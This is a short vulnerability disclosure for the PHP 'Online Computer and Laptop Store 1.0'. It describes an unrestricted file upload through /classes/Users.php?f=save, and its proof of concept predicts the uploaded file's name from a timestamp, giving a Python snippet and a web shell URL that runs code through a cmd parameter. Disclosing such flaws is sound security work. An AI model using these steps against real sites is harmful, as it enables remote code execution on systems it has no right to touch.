 # php-ocls
php-ocls
Online Computer and Laptop Store 1.0 allows Unrestricted file upload and can lead to remote code execution. The vulnerability located in /classes/Users.php?f=save. The name of the uploaded file can be easily obtained through the timestamp.

![图片](https://user-images.githubusercontent.com/58156046/233908793-43f8a51e-ea97-4bc1-a133-24040bd21e12.png)

1. Send the request and note when it was sent.

![图片](https://user-images.githubusercontent.com/58156046/233908652-5bebd05d-ac45-44af-969c-8dbfa31c12a4.png)

2. Calculate the timestamp.

``` 
import time


timeArray = time.strptime('2023-04-24 13:40:00', "%Y-%m-%d %H:%M:%S")
time_format= time.mktime(timeArray)
print(int(time_format))
```

3. Get Shell.
http://192.168.3.43/php-ocls/uploads/1682314800_shell.php?cmd=phpinfo();

![asdasdasd](https://user-images.githubusercontent.com/58156046/233910339-3bdf9181-19b1-4950-bcdc-7c514c40f19d.png)
